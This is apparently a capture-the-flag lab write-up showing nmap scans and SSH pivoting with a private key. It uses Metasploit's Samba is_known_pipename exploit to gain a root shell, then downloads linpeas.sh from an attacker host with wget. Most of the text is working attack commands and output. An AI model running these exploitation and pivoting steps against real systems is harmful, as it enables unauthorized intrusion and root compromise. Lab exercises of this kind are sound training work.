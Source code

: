 # 93b00a_remote_exploitation_2

When I scaned in the 10.0.7.225, I found the smb vulnerability.
```
nohup nmap -p- 10.0.7.0/24 > result.txt &
Nmap scan report for 10.0.7.127
Host is up (0.12s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
52961/tcp open  unknown

blade@en2720-w1-buckeye:~$ nmap -p445 -A 10.0.7.127
PORT    STATE SERVICE     VERSION
445/tcp open  netbios-ssn Samba smbd 4.5.4-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: EN2720-W1-CLOUD-HOPPER
```

We cannot access the 10.0.7.127 directly, there are 2 ways.

The first is to use metasploit autoroute.
```
use auxiliary/scanner/ssh/ssh_login_pubkey
set key_path /home/jinjia/client_attack/id_rsa_blade
set rhosts 10.0.7.225
set rport 52961
set username blade
run # equivalent to `run ssh://blade@10.0.7.225:52961 key_path=/home/jinjia/client_attack/id_rsa_blade1
sessions -u 1
sessions -i 2

meterpreter> run autoroute -p 
meterpreter> run autoroute -s 10.0.7.127
meterpreter> bg 

use exploit/linux/samba/is_known_pipename
set rhosts 10.0.7.127
exploit # get shell
ls /root
wget 192.168.0.7:8000/linpeas.sh
chmod +x linpeas.sh

```

The second is to use the local port forwarding. Now we can use Metasploit locally to hack the target by setting RHOST localhost and RPORT 19999
```
ssh -N -L 19999:10.0.7.127:445 -i id_rsa_blade blade@10.0.7.225 -p 52961

use exploit/linux/samba/is_known_pipename
set rhosts 127.0.0.1
set rport 19999
exploit # get shell
whoami
#root
ls /root
#flag{93b00ada9e8e98317bcf9f2dbcccb0b5c40bb92fc29c2c}.jpg

```